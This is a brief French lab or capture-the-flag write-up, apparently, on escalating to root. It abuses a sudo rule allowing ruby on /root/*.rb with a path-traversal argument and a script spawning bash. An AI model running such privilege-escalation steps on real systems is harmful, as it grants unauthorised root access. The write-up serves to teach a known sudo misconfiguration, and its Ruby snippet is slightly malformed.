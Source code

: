 # Privesc to root
La privesc est relativement facile, dés la connexion en SSH, je regarde les droits sudo avec **sudo -l**

```
(ALL) NOPASSWD: /usr/bin/ruby /root/*.rb
```
Rien de plus simple. On va créer un script ruby qui spawn un shell
```
system(/bin/bash)
```
et on l'execute en modifiant le path:
```
sudo /usr/bin/ruby /root/../home/carlos/script.rb
```
Et me voila avec un shell root.
